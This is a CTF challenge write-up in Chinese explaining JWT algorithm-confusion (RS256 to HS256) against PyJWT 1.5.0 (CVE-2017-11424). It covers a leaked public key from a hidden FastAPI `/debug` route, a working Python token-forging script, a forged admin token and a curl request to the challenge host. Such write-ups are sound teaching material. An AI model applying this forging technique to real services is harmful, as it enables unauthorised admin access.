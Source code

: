 # 普通的身份认证器

一道简单的 web 题，本来想出得更好一点的，但是因为时间不太够 + 自己太菜了，所以出成了现在这个样子。

## JWT

打开题目显示只能以 Guest 用户登录，获取用户信息提示需要 admin 用户才能看到 flag。看到登录可能大家的第一反应是去看 cookie，但是 cookie 里面什么都没有。如果去读与 Vue 相关的代码，就会发现……所谓的登录，实际上是：把比赛 token 放进 header 里面，然后 POST 方式请求 `/token`，将结果放进 `this.jwt` 里面。之后获取用户信息，就是把比赛 token 和 `this.jwt` 放进 header 里面，然后 GET 方式请求 `/profile`。

然后呢？看起来 JWT (JSON Web Tokens) 是一个关键的地方。通过观察开发者工具的 Network 模块，可以获得服务器发来的 JWT（当然，这道题加载的是开发版本的 Vue，所以如果你写过 Vue 的话，你的浏览器里也应该会有 Vue.js devtools，用那个应该会更方便一点）。

但是 JWT 是什么？简单（而可能不太准确）地说，JWT 是一种用于身份认证的 token，token 中的内容是公开的，通过签名保证 token 未被篡改。可以在 <https://jwt.io> 来解码得到的 token，以下是一个获取到的 token 的例子：

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJndWVzdCIsImV4cCI6MTYwNDM3NDE4N30.ZADFKRFG0I5LpsUwb2hAqcyD1BOWf5doLrxVIuI-OINDPaBNKsuCPInxadxW5VbhDmmkcgBnGT_GQfqE7VWFKf2aY0Zfq8YNmXPESEWV9OC4WHfEt3GwN5B2Rt1wXZgcWuB9pcxVKttoND9yLS5Pa7mOTyc_SPJ-A7t0FnfoL8NwbqOeLorMW190UuVb4_bbuNcEVFwqOp6A7vrNLbD6trhUrk2aFG1rtbTwuTkdDqMozOtzI8GtwpShb9XmQCugjOBciQceeTnRB4PjBxdJO8tHuiVMwVIOg5__-gDJTDAxd9veT_T8finvvOJ2rMAsNO_WSOYgdBKBwfUh5kbh7x-C616dj4C0xnJR8U3DDhyyjBa5V6c9_jDWM6E0YB9O0iRTglWetvW3xC-_ZNaWS-yxFvcAnVxOVyEkAiow0BJuyRxNDXc3m2g0yg6vUjmimUnJ3-ffl5E1sqdPiK_Tyy2ny21ZRzZz01uEf0Z31JP3RThOKPmfkTDpRKMB5pSuCeqvxK5ZP6hKwpahc5MqZHbzwMv8rPD_D-bLDKjSkYfu_JCQO00mfTDxg28DWSvJz8xaUL3oUAsR_8lhw20SElh_NcdywMSiDTe6vYZ0KjRZ1mIZMLxmAqPR2YlhRwQmhGad5Z2EKHUTwaYzR_tI4HtubTk4L3k7PBo5N6T0WwY
```

解码之后可以看到，这个 JWT 的 header 提示我们它的类型 (`typ`) 是 JWT，签名算法 (`alg`) 是 `RS256`（使用 SHA-256 的 RSA 签名）；Payload 中标明了用户名 (`sub`) 为 `guest`，以及其过期时间 (`exp`) 为北京时间 2020 年 11 月 3 日 11:29:47；最后是签名部分，当然公钥和私钥我们现在都不知道。

下一步应该做什么呢？

## FastAPI

从注释中可以得到，它的后端框架使用的是 FastAPI，一个快速的 Python Web API 框架。如果真的去看过 [FastAPI 文档](https://fastapi.tiangolo.com/) 的话，你会发现 FastAPI 会给网站自动生成 API 文档，路径在 `/docs`。点开来查看之后，就能看到一个隐藏的 route `/debug`，访问一下，就能看到它把公钥吐出来了。

## ~~公钥被大家知道了也不会怎么样吧~~

在非对称密码中，公钥确实是可以公开的。但是这就牵扯到了 JWT 格式的问题：它的签名算法除了支持 RSA 签名以外，还支持对称的 HMAC 签名（例如 `HS256`），并且修改 JWT 中的签名算法只需要修改 header 的 `alg` 字段，并且通过某些方法，仍然让程序认为整个 JWT 是完好而未被篡改的即可。

在使用 RS256 时，程序的流程是：

- 使用私钥为 JWT 签名。
- 使用公钥验证接收到的 JWT 的完整性。

而在使用 HS256 时，程序的流程是：

- 使用密钥为 JWT 签名。
- 同样，使用这个密钥验证 JWT 的完整性。显然，这个密钥不能被泄露出来。

那么如果我们知道公钥，那么我们就能这么做：

- 接收到一个合法的，使用 `RS256` 签名算法的 JWT。
- 修改 JWT 的 payload 我们想要的样子，同时修改 header 的算法为 `HS256`。
- 使用已知的公钥，以 `HS256` 算法重新签名我们修改后的公钥。
- 发给服务器。此时，服务器使用公钥 + `HS256` 算法检查 JWT，发现没有问题，就会认为这是一个合法的 JWT。

目前的 JWT 库基本上都修复了这个问题。

## exp

题目中提到“只是他似乎没有仔细检查每一项依赖的版本”，暗示了网站可能使用了有问题的 JWT 库。Python 的 JWT 库有很多，这里挑选了 PyJWT 作为我们的 JWT 库（当然用别的也行），阅读文档之后很容易就能写出来：

```python
import jwt

PUBLIC_KEY = "-----BEGIN RSA PUBLIC KEY-----\nMIICCgKCAgEAn/KiHQ+/zwE7kY/Xf89PY6SowSb7CUk2b+lSVqC9u+R4BaE/5tNF\neNlneGNny6fQhCRA+Pdw1UJSnNpG26z/uOK8+H7fMb2Da5t/94wavw410sCKVbvf\nft8gKquUaeq//tp20BETeS5MWIXp5EXCE+lEdAHgmWWoMVMIOXwaKTMnCVGJ2SRr\n+xH9147FZqOa/17PYIIHuUDlfeGi+Iu7T6a+QZ0tvmHL6j9Onk/EEONuUDfElonY\nM688jhuAM/FSLfMzdyk23mJk3CKPah48nzVmb1YRyfBWiVFGYQqMCBnWgoGOanpd\n46Fp1ff1zBn4sZTfPSOus/+00D5Lxh6bsbRa6A1vAApfmTcu026lIb7gbG7DU1/s\neDId9s1qA5BJpzWFKO4ztkPGvPTUok8hQBMDaSH1JOoFQgfJIfC7w2CQe+KbodQL\n3akKQDCZhcoA4tf5VC6ODJpFxCn6blML5cD6veOBPJiIk8DBRgmt2AHzOUju+5ns\nQcplOVxW5TFYxLqeJ8FPWqQcVekZ749FjchtAwPlUsoWIH0PTSun38ua8usrwTXb\npBlf4r0wz22FPqaecvp7z6Rj/xfDauDGDSU4hmn/TY9Fr+OmFJPW/9k2RAv7KEFv\nFCLP/3U3r0FMwSe/FPHmt5fjAtsGlZLj+bZsgwFllYeD90VQU8Ds+KkCAwEAAQ==\n-----END RSA PUBLIC KEY-----\n"

payload = {
  "sub": "admin",
  "exp": 9602085613,  # fill in any number you like
}

encoded = jwt.encode(payload, PUBLIC_KEY, algorithm='HS256')

print(encoded)
```

但是如果直接运行的话，会报错。

```
Traceback (most recent call last):
  File "exp.py", line 10, in <module>
    encoded = jwt.encode(payload, PUBLIC_KEY, algorithm='HS256')
  File "<redacted>/venv/lib/python3.7/site-packages/jwt/api_jwt.py", line 65, in encode
    json_payload, key, algorithm, headers, json_encoder
  File "<redacted>/venv/lib/python3.7/site-packages/jwt/api_jws.py", line 113, in encode
    key = alg_obj.prepare_key(key)
  File "<redacted>/venv/lib/python3.7/site-packages/jwt/algorithms.py", line 151, in prepare_key
    'The specified key is an asymmetric key or x509 certificate and'
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.
```

这是因为，PyJWT（以及其他很多 JWT 库）修复这个安全漏洞的方式是：当使用 HS256 encode/decode 的时候，检查密钥的开头是否是非对称加密的公钥，如果是，就报错。可以直接魔改 jwt/algorithms.py 把这一部分的校验去掉，也可以降级到有问题的版本（1.5.0）然后再跑 exp。

获得的一个可用的 JWT 是：

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImV4cCI6OTYwMjA4NTYxM30.2oxpg6KALSg37msshI8Oddi1TgspKdxoPzOJ0Zyt77I
```

然后请求 `/profile`:

```
curl -H 'Hg-Token: 你的 token' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImV4cCI6OTYwMjA4NTYxM30.2oxpg6KALSg37msshI8Oddi1TgspKdxoPzOJ0Zyt77I' http://202.38.93.111:10092/profile
```

就好了。

## 题目细节

### 使用的 JWT 库版本

本题使用的是 PyJWT 1.5.0，对应的 CVE 是 [CVE-2017-11424](https://www.cvedetails.com/cve/CVE-2017-11424/)。其实 PyJWT 当时已经考虑到了本题所述的安全问题，但是[在进行校验的时候，没有把所有可能的情况都加入](https://github.com/jpadilla/pyjwt/blob/1.5.0/jwt/algorithms.py#L142)。

```python
invalid_strings = [
    b'-----BEGIN PUBLIC KEY-----',
    b'-----BEGIN CERTIFICATE-----',
    b'ssh-rsa'
]

if any([string_value in key for string_value in invalid_strings]):
    raise InvalidKeyError(
        'The specified key is an asymmetric key or x509 certificate and'
        ' should not be used as an HMAC secret.')
```

如果开头是 `-----BEGIN RSA PUBLIC KEY-----` 的话，就能通过这样的逻辑了。因为 FastAPI 是在 PyJWT 1.5.0 之后出现的（如果我没搞错的话），题目为了能够自圆其说……文案就写成了这样子。

### 可以把 algorithm 设置为 none 吗？

把 CTF 和 JWT 放在一起搜索过的同学一定能找到一些常见会出现的安全问题，包括本题使用的问题，以及将 algorithm 设置为 none 来绕过签名检查的问题。

但是本题中，这种做法是不可行的。因为尽管 PyJWT 支持 none，它在 encode/decode 的时候会检查参数中密钥是否被设置，[如果设置了就会报错](https://github.com/jpadilla/pyjwt/blob/1.5.0/jwt/algorithms.py#L116)，这是无法绕过的。